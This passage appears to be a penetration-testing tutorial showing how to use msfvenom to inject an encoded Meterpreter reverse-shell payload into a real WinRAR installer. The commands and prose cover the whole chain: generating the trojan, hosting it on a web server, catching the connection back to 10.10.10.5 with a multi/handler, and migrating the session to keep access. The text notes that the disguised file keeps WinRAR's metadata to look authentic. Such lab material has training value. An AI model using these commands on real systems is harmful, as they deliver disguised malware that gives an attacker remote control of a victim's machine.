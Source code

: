 `-e`: specify the encoder.

`-i`: increase the encoding iterations to 10.

`-f`: the output format.

`-x`: specify the portable executable that we want to inject our payload into.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar.exe
```

We can now transfer this over to the target. I'll set up a web server to host these files within this directory.

```
sudo python -m SimpleHTTPServer 80
```

Set up our listener or multi handler. Set the payload that we used to generate our executables.

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 1234
run
```

Switch over to the Windows system.

```
http://10.10.10.5/
```

That looks like the WinRAR setup file. However, because we did not specify the `-k` option to maintain the functionality of the executable, when we double click on it, it will not provide us with the WinRAR installer. It'll execute the payload. However, if you take a look at the file description, it still maintains the company and developer that developed WinRAR, which can help with the authenticity when you're trying to perform a client side attack. It also provides it with a file version.

Once we execute it, it is going to execute the payload in memory.

Switch over to the Kali VM. We get a Meterpreter session.

We still have access to the Windows system.

```
meterpreter > sysinfo
```

Once you've established access on a target system through a client side attack, one of the command I would recommand that you run is the post-exploitation module called migrate. 

This post-exploitation module is a Windows post-exploitation module that will manage the process that the Meterpreter payload is currently running on to another one, or it'll inject it into another one in the event that process if eventually stopped by Windows. This can be very useful in preventing that from happening. 
